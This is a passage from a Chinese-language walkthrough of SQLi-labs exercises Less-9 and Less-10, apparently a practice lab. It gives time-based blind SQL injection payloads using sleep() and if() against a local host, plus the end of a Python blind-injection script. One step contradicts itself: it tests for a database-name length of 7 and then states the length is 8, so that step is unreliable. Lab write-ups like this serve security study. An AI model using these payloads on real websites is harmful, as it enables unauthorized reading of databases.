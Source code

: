 ```
		response = requests.get(temp_url)
		if success_text in response.text:
			return i
	return -1

# 之后操作类似
```

## 0x09

根据题目，为时间盲注

尝试以下几个注入点，失败

```
?id=1'
?id=1')
?id=1"
```

查看源码

```
'id'
```

使用时间盲注

```
?id=1' and sleep(5) --+
```

延时大概5秒，说明可以采用时间盲注

```
http://192.168.64.2/sqli/Less-9/?id=1' and if(length(database())=7,sleep(5),1)%20--+
```

有延迟，说明数据库名称长度为8

之后操作与0x08类似

## 0x10

双引号的时间盲注

```
192.168.64.2/sqli/Less-10/?id=1" and if(database()="security",sleep(2),1) --+
```

### 时间盲注

```
... and if(database()="security",sleep(5),1) --+
```

## 0x11
